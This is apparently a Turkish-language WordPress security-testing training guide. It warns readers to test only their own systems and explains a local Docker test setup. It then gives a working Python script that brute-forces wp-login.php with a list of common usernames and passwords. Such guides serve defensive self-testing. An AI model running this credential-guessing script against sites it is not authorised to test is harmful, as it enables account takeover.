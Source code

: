 # WordPress Güvenlik Testleri - Eğitim Rehberi

## ⚠️ ÖNEMLİ UYARILAR

1. **Sadece kendi sahip olduğunuz sistemlerde test yapın**
2. **Test ortamını production'dan ayrı tutun**
3. **Yasal izinleriniz olmadan başka sitelerde test yapmayın**
4. **Bu araçlar sadece eğitim ve kendi güvenliğinizi test etmek içindir**

## Test Ortamı Kurulumu

### 1. Yerel Test Ortamı (Önerilen)

```bash
# Docker ile WordPress test ortamı
docker-compose up -d

# Veya XAMPP/WAMP kullanarak yerel kurulum
```

### 2. İzole Test Sunucusu
- Ayrı bir VPS veya yerel sanal makine kullanın
- Production verilerini asla test ortamında kullanmayın

## Güvenlik Test Kategorileri

### A. Zayıf Kimlik Doğrulama Testleri

#### 1. Brute Force Koruması Test
```python
# Brute force saldırı simülasyonu (sadece kendi sitenizde)
import requests
import itertools
from time import sleep

def test_brute_force_protection(target_url, usernames, passwords):
    """
    Kendi WordPress sitenizin brute force korumasını test eder
    """
    print("⚠️  SADECE KENDİ SİTENİZDE KULLANIN!")
    
    login_url = f"{target_url}/wp-login.php"
    
    for username, password in itertools.product(usernames, passwords):
        data = {
            'log': username,
            'pwd': password,
            'wp-submit': 'Log In'
        }
        
        response = requests.post(login_url, data=data)
        
        if "ERROR" not in response.text:
            print(f"⚠️  Potansiyel zayıf kimlik bilgisi: {username}:{password}")
        
        sleep(1)  # Rate limiting için bekleme

# Örnek kullanım (sadece test ortamınızda)
# test_usernames = ['admin', 'administrator', 'test']
# test_passwords = ['123456', 'password', 'admin']
# test_brute_force_protection('http://localhost:8080', test_usernames, test_passwords)
```